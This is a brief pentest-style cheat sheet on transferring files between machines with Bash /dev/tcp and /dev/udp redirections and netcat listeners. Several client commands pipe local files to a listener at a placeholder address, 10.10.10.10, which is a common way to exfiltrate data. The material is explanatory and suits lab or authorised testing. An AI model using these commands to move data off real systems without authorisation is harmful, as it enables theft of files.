 # TCP / UDP

## /dev/tcp & /dev/udp

#### Below two virtual device map provided by Linux: _/dev/tcp/$host/$port_ _/dev/udp/$host/$port_

{% hint style="warning" %}
`/dev/tcp` and `/dev/udp` redirections will work in BASH only if it has been compiled with `--enable-net-redirections` option. other shells such as zsh and rbash might not be able to redirect to tcp/udp device maps.
{% endhint %}

## TCP

### Download File

```
nc -lvnp 80 > file # server
cat /path/file > /dev/tcp/10.10.10.10/80 # client
```

### Upload Files

```
nc -w5 -lvnp 80 < file_to_send.txt # server

# client
exec 6< /dev/tcp/10.10.10.10/4444
cat <&6 > file.txt
```

## UDP

### Download File

```
nc -ulvnp 80 > file # server
cat /path/file > /dev/udp/10.10.10.10/80 # client
```

### Upload Files

```
nc -w5 -ulvnp 80 < file_to_send.txt # server


# client
exec 6< /dev/udp/10.10.10.10/4444
cat <&6 > file.txt
```



